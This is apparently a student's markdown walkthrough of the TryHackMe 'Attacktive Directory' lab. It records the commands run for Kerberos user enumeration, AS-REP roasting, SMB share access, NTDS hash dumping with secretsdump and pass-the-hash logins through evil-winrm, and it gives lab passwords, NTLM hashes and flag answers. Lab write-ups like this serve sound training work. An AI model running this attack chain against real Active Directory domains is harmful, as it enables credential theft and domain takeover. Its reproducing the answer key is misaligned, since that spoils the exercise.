



#TryHackMe


     
#Task 1  Intro Deploy The Machine
Connected VPN

#Task 2  Intro Setup

Installing Impacket:

Whether you're on the Kali 2019.3 or Kali 2021.1, Impacket can be a pain to install  correctly. Here's some instructions that may help you install it correctly!

First, you will need to clone the Impacket Github repo onto your box. The following command will clone Impacket into /opt/impacket:

Ran commands ```sudo git clone https://github.com/SecureAuthCorp/impacket.git /opt/impacket```

After the repo is cloned, you will notice several install related files, requirements.txt, and setup.py. A commonly skipped file during the installation is setup.py, this actually installs Impacket onto your system so you can use it and not have to worry about any dependencies.

To install the Python requirements for Impacket:

Ran commands>>
```sudo pip3 install -r /opt/impacket/requirements.txt```
```cd /opt/impacket/ && sudo python3 ./setup.py install```

Installing Bloodhound and Neo4j

Bloodhound is another tool that we'll be utilizing while attacking Attacktive Directory. We'll cover specifcs of the 
tool later, but for now, we need to install two packages with Apt, those being bloodhound and neo4j. You can install 
it with the following command:

```sudo apt install bloodhound neo4j```

```apt update && apt upgrade```

#Task 3  Enumeration Welcome to Attacktive Directory

Welcome to Attacktive Directory

Welcome Dear User!

Thank you for doing my first room. I originally created this room for my final project in my Cyber Security degree
program back in 2019. Since then, I've gone on to make several other rooms, even a Network for THM. In March 2021,
I made the decision to renovate this room and make it more guided and less challenge based so there are more
learning opportunities for others. I hope you enjoy it.

Love,

Spooks


Enumeration

Basic enumeration starts out with an nmap scan. Nmap is a relatively complex utility that has been refined over the
years to detect what ports are open on a device, what services are running, and even detect what operating system is
running. It's important to note that not all services may be deteted correctly and not enumerated to it's fullest 
potential. Despite nmap being an overly complex utility, it cannot enumerate everything. Therefore after an initial
nmap scan we'll be using other utilities to help us enumerate the services running on the device.

For more information on nmap, check out the nmap room.


Notes: Flags for each user account are available for submission. You can retrieve the flags for user accounts via
RDP (Note: the login format is spookysec.local\User at the Window's login prompt) and Administrator via Evil-WinRM.

Ran command ```nmap spookysec.local```

failed, edited /etc/hosts/

Ran command ``echo 10.2.70.52 spookysec.local >> /etc/host``` failed

used vim to add

Ran command >`nmap -sC -sV -oA nmap/attactive-open-ports -T4 10.10.74.184 > attacktive_directory.log`

Ran command `nmap -p- -A -o portscan 10.10.74.184`

Ran command `enum4linux -A 10.10.74.184`

What tool will allow us to enumerate port 139/445?

Answer-`enum4linux`

What is the NetBIOS-Domain Name of the machine?

Answer-`THM-AD`

What invalid TLD do people commonly use for their Active Directory Domain?

Answer-`.local`

#Task 4  Enumeration Enumerating Users via Kerberos

Introduction:

A whole host of other services are running, including Kerberos. Kerberos is a key authentication 
service within Active Directory. With this port open, we can use a tool called Kerbrute (by Ronnie
Flathers @ropnop) to brute force discovery of users, passwords and even password spray!

Enumeration:

For this box, a modified User List and Password List will be used to cut down on time of enumeration
of users and password hash cracking. It is NOT recommended to brute force credentials due to account
lockout policies that we cannot enumerate on the domain controller.

Ran command `sudo pip3 install kerbrute`

Ran command `cd /usr/local/bin/ && ./kerbrute userenum --dc 10.10.74.184 -d 10.10.74.184 ../../ ../../TryHackMe/Attacktive_Directory/userlist.txt -t 100

failed

after fixing my ambiguity, and switches, etc, command should read>>>>
`./kerbrute -domain spookysec.local -users /home/kali/Desktop/TryHackMe/Attacktive_directory/userlist.txt -t 100 `

wrong kerbrute version

ran commands `sudo apt-get install golang`

ran command `sudo ./kerbrute userenum --dc spookysec.local -d spookysec.local userlist.txt`


What command within Kerbrute will allow us to enumerate valid usernames?

Answer-`userenum`

What notable account is discovered? (These should jump out at you)

Answer-`svc-admin`

What is the other notable account is discovered? (These should jump out at you)

Answer-`backup`

#Task 5  Exploitation Abusing Kerberos

Introduction

After the enumeration of user accounts is finished, we can attempt to abuse a 
feature within Kerberos with an attack method called ASREPRoasting. ASReproasting 
occurs when a user account has the privilege "Does not require Pre-Authentication"
set. This means that the account does not need to provide valid identification before
requesting a Kerberos Ticket on the specified user account.

Retrieving Kerberos Tickets

Impacket has a tool called "GetNPUsers.py" (located in impacket/examples/GetNPUsers.py)
that will allow us to query ASReproastable accounts from the Key Distribution Center.
The only thing that's necessary to query accounts is a valid set of usernames which 
we enumerated previously via Kerbrute.


We have two user accounts that we could potentially query a ticket from. Which user account can you query a ticket from with no password?

Answer-`svc-admin`

Looking at the Hashcat Examples Wiki page, what type of Kerberos hash did we retrieve from the KDC? (Specify the full name)

Answer-`Kerberos 5 AS-REP etype 23`

What mode is the hash?

Answer-`18200`

Now crack the hash with the modified password list provided, what is the user accounts password?

Answer-`management2005`

#Task 6  Enumeration Back to the Basics

Enumeration:

With a user's account credentials we now have significantly more access within the domain.
We can now attempt to enumerate any shares that the domain controller may be giving out.

Using utility can we map remote SMB shares?

Answer-`smbclient`

Which option will list shares?

Answer-`-L`

How many remote shares is the server listing?

Answer-`6`

There is one particular share that we have access to that contains a text file. Which share is it?

Answer-`backup`

What is the content of the file?

ran command `cat backup_credentials.txt `

Answer-`YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw`

Decoding the contents of the file, what is the full contents?

ran command`echo "YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw" | base64 -d`

Anser-`backup@spookysec.local:backup2517860 `


     
#Task 7  Domain Privilege Escalation Elevating Privileges within the Domain

Let's Sync Up!

Now that we have new user account credentials, we may have more privileges on the system than before. 
The username of the account "backup" gets us thinking. What is this the backup account to?

Well, it is the backup account for the Domain Controller. This account has a unique permission
that allows all Active Directory changes to be synced with this user account. This includes password hashes

Knowing this, we can use another tool within Impacket called "secretsdump.py". This will allow us to retrieve
all of the password hashes that this user account (that is synced with the domain controller) has to offer.
Exploiting this, we will effectively have full control over the AD Domain.

What method allowed us to dump NTDS.DIT?

Ran command `secretsdump.py -dc-ip 10.10.74.184 spookysec.local/backup:backup2517860@10.10.74.184

Answer-`DRSUAPI`

What is the Administrators NTLM hash?



Answer-`0e0363213e37b94221497260b0bcb4fc`

What method of attack could allow us to authenticate as the user without the password?

Answer-`pass the hash`

Using a tool called Evil-WinRM what option will allow us to use a hash?

Answer-`-H`

#Task 8  Flag Submission Flag Submission Panel

evil-winrm needed

`git clone https://github.com/Hackplayers/evil-winrm`
`sudo sudo gem install winrm winrm-fs stringio`
git clone https://github.com/Hackplayers/evil-winrm.git`

Flag Submission Panel

Submit the flags for each user account. They can be located on each user's desktop.

If you enjoyed this box, you may also enjoy my blog post!

svc-admin


Ran command `evil-winrm.rb -i 10.10.74.184 -u svc-admin -H fc0f1e5359e372aa1f69147375ba6809`

Answer-`TryHackMe{K3rb3r0s_Pr3_4uth}`

backup

Ran command`evil-winrm.rb -i 10.10.74.184 -u backup -H 19741bde08e135f4b40f1ca9aab45538`

TryHackMe{B4ckM3UpSc0tty!}

Administrator

Ran command`evil-winrm.rb -i 10.10.74.184 -u Administrator -H 0e0363213e37b94221497260b0bcb4fc

TryHackMe{4ctiveD1rectoryM4st3r}


